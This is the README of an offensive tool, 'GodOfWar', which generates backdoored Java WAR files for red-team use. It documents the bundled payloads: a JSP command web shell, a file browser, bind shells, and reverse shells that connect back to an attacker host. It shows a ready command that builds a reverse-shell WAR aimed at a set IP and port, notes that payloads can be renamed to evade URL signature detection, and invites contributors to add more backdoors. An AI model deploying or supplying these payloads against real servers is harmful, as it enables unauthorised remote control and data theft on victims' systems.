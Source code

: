 # GodOfWar - Malicious Java WAR builder
A command-line tool to generate war payloads for penetration testing / red teaming purposes, written in ruby.

```
                              .
                             hhh              
                            hhhhhhh           
                           hhhhhhhh        
                          hhhhhhhh+        
                         hhhhhhhh'           
                        hhhhhhhh.            
                       hhhhhhhhh             
        ..--          hhhhhhhhh             
      -sh/..  +.     hhhhhhhhh:              
      /+/:-/+ss-`   hhhhhhhhhh:               
      /MMM`ss:``.`  hhhhhhhhhh:              
     .MMMMM:        hhhhhhhhhhhhhhhhh:       
     MMMMMMM:        hhhhhhhhhhhhhhhh:      
     MMMMMMMMMMMMM:  hhhhhhhhhhhhhhhh`       
    :NNm:odh/oMMMNs. hhhhhhhhhhhhhhhh`       
   ./:`smdo+oos++-    `++sNMMMMMNmh+         
      .-y-`     ` :.  /   -dmddhhhhh-        
       o/-     `//o/ /M/   `+hhhhhhhh`       
      /o     :yosmy   +y  .`.hhhhhhhho       
      +`     /../.:      `.y::hhhhhs:`       
       `      `+yys`   .sy` /oohhy:          
                `/:s/-``     `.hh`           
               ..`     `       y+            
            .hNNmmNdymmmmds`   :-            
            hs.   ``..    :y-  `             
               -hhmNmddm+   .                
               `NMMMMMMm                     
                ` `oMMy                      
            `.     /Md-      :o  
           MMMMMMMMMMMMMMMMMMM:             
            MMMMMMMMMMMMMMMMMM:              
             MMMMMMMMMMMMMMMMM               
              MMMMMMMMMMMMMMM.               
              `MMMMMMMMMMMMM.                 
                :sNMMMNMdo:                  
                  ``+m:/-                    
                     `                                  
GodOfWar - Malicious Java WAR builder.
```

## Features

- Preexisting payloads. (try `-l/--list`)
    - cmd_get
    - filebrowser
    - bind_shell
    - reverse_shell
    - reverse_shell_ui 
- Configurable backdoor. (try `--host/--port`)
- Control over payload name. 
  - To avoid malicious name after deployment to bypass URL name signatures.

## Installation

```
$ gem install godofwar
```

## Usage
```
$ godofwar -h 

Help menu:
   -p, --payload PAYLOAD            Generates war from one of the available payloads.
                                        (check -l/--list)
   -H, --host IP_ADDR               Local or Remote IP address for the chosen payload
                                        (used with -p/--payload)
   -P, --port PORT                  Local or Remote Port for the chosen payload
                                        (used with -p/--payload)
   -o, --output [FILE]              Output file and the deployment name.
                                        (default is the payload original name. check '-l/--list')
   -l, --list                       list all available payloads.
   -h, --help                       Show this help message.
```

### Example 

**List all payloads**
```
$ godofwar -l
├── cmd_get
│   └── Information:
│       ├── Description: Command execution via web interface
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/cmd.jsp?cmd=whoami
│       ├── References:  ["https://github.com/danielmiessler/SecLists/tree/master/Payloads/laudanum-0.8/jsp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/cmd_get
├── filebrowser
│   └── Information:
│       ├── Description: Remote file browser, upload, download, unzip files and native command execution
│       ├── OS:          any
│       ├── Settings:    {"false"=>"No Settings required!"}
│       ├── Usage:       http://host/filebrowser.jsp
│       ├── References:  ["http://www.vonloesch.de/filebrowser.html"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/filebrowser
├── bind_shell
│   └── Information:
│       ├── Description: TCP bind shell
│       ├── OS:          any
│       ├── Settings:    {"port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse-shell.jsp
│       ├── References:  ["Metasploit - msfvenom -p java/jsp_shell_bind_tcp"]
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/bind_shell
├── reverse_shell_ui
│   └── Information:
│       ├── Description: TCP reverse shell with a HTML form to set LHOST and LPORT from browser.
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell_ui.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell_ui
├── reverse_shell
│   └── Information:
│       ├── Description: TCP reverse shell. LHOST and LPORT are hardcoded
│       ├── OS:          any
│       ├── Settings:    {"host"=>"attacker", "port"=>4444, "false"=>"No Settings required!"}
│       ├── Usage:       http://host/reverse_shell.jsp
│       ├── References:  []
│       └── Local Path:  /var/lib/gems/2.5.0/gems/godofwar-1.0.1/payloads/reverse_shell
```

**Generate payload with LHOST and LPORT**
```
godofwar -p reverse_shell -H 192.168.100.10  -P 9911 -o puppy
```
After deployment, you can visit your shell on (http://host:8080/puppy/puppy.jsp) 

## Contributing

1. Fork it ( https://github.com/KINGSABRI/godofwar/fork ).
2. Create your feature branch (git checkout -b my-new-feature).
3. Commit your changes (git commit -am 'Add some feature').
4. Push to the branch (git push origin my-new-feature).
5. Create a new Pull Request.

### Add More Backdoors
To contribute by adding more backdoors:
1. create a new folder under `payloads` directory.
2. put your `jsp` file under the newly created directory (make it the same directory name).
3. update `payloads_info.json` file with
    1. description. 
    2. supported operating system (try to make it universal though).
    3. configurations: default host and port.
    4. references: the payload origin or its creator credits.

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

